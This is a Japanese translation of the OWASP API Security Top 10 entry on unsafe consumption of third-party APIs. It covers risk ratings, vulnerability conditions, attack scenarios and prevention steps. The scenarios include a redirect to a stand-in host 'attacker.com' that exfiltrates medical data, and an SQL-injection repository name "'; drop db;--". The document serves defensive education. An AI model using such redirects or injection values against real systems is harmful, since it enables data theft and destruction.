 API10:2023 API の安全でない使用 (Unsafe Consumption of APIs)
============================================================

| 脅威エージェント/攻撃手法 | セキュリティ上の弱点 | 影響 |
| - | - | - |
| API 依存 : 悪用難易度 **2** | 普及度 **2** : 検出難易度 **1** | 技術的影響 **3** : ビジネス依存 |
| 開発者は外部 API やサードパーティ API とやり取りするエンドポイントを信頼はしても検証はしない傾向にあります。これらの API のセキュリティ上の欠陥の悪用に成功すると、それらに依存しているものに影響を与える可能性があります。 | 通常、API 統合はそれらに関連するトランスポートセキュリティ、認証、認可、入力バリデーションとサニタイズなど、より弱いセキュリティ要件に依存します。 | 認可されていないアクターへの機密情報の流出やさまざまな種類のインジェクションが一般的な問題です。 |

## その API は脆弱か？

開発者はサードパーティ API から受け取ったデータをユーザー入力よりも信頼する傾向があります。
これは特に有名企業が提供する API に当てはまります。
そのため、開発者はたとえば入力バリデーションやサニタイズに関して、より弱いセキュリティ標準を採用する傾向があります。


以下の場合、API は脆弱である可能性があります。

* 暗号化されていないチャネルを介して他の API とやり取りする場合。
* 他の API から収集したデータを処理する前やダウンストリームコンポーネントに渡す前に、適切にバリデーションとサニタイズを行っていない場合。

* リダイレクトに盲目的に従っている場合。
* サードパーティサービスのレスポンスを処理するために利用できるリソースの数を制限していない場合。

* サードパーティサービスとのやり取りにタイムアウトを実装していない場合。

## 攻撃シナリオの例

### シナリオ #1

ある API はユーザーが提供するビジネスアドレスを充実させるためにサードパーティサービスに依存しています。
エンドユーザーによって API にアドレスが提供されると、そのアドレスはサードパーティサービスに送信され、返されたデータはローカルの SQL 対応データベースに保存されます。



悪意のあるアクターはサードパーティサービスを使用して、自分が作成したビジネスに関連する SQLi ペイロードを保存します。
それから、脆弱な API に特定の入力を与えて、サードパーティサービスから「悪意のあるビジネス」を引き出します。
SQLi ペイロードは最終的にデータベースによって実行され、データは攻撃者のコントロール下にあるサーバーに流出します。



### シナリオ #2

ある API は機密性の高いユーザーの医療情報を安全に保存するためにサードパーティサービスと統合しています。
データは以下のような HTTP リクエストを使用してセキュアコネクションを介して送信されます。


```
POST /user/store_phr_record
{ "genome": "ACTAGTAG__TTGADDAAIICCTT…" }
```

悪意のあるアクターはサードパーティ API を侵害する方法を発見し、前述のようなリクエストに対して 308 Permanent Redirect でレスポンスするようになりました。


```
HTTP/1.1 308 Permanent Redirect
Location: https://attacker.com/
```

その API はサードパーティのリダイレクトに盲目的に従うため、ユーザーの機密データを含むまったく同じリクエストを繰り返しますが、今度は攻撃者のサーバーに送られます。



### シナリオ #3

攻撃者は `'; drop db;--` という名前の git リポジトリを用意できます。

ここで、攻撃されたアプリケーションから悪意のあるリポジトリとの統合が行われると、リポジトリの名前が安全な入力であると信じて SQL クエリを構築するアプリケーションでインジェクションペイロードが使用されます。



## 防止方法

* サービスプロバイダを評価する際には、API セキュリティ態勢を評価します。
* すべての API インタラクションが安全な通信チャネル (TLS) 上で行われることを確認します。
* 統合された API から受け取ったデータを使用する前に、常にバリデーションとサニタイズを行います。

* 統合された API がリダイレクトする可能性のあるよく知られた場所の許可リストを保守します。リダイレクトに盲目的に従ってはいけません。



## 参考資料

### OWASP

* [Web Service Security Cheat Sheet][1]
* [Injection Flaws][2]
* [Input Validation Cheat Sheet][3]
* [Injection Prevention Cheat Sheet][4]
* [Transport Layer Protection Cheat Sheet][5]
* [Unvalidated Redirects and Forwards Cheat Sheet][6]

### その他

* [CWE-20: Improper Input Validation][7]
* [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor][8]
* [CWE-319: Cleartext Transmission of Sensitive Information][9]

[1]: https://cheatsheetseries.owasp.org/cheatsheets/Web_Service_Security_Cheat_Sheet.html
[2]: https://www.owasp.org/index.php/Injection_Flaws
[3]: https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html
[4]: https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html
[5]: https://cheatsheetseries.owasp.org/cheatsheets/Transport_Layer_Protection_Cheat_Sheet.html
[6]: https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html
[7]: https://cwe.mitre.org/data/definitions/20.html
[8]: https://cwe.mitre.org/data/definitions/200.html
[9]: https://cwe.mitre.org/data/definitions/319.html
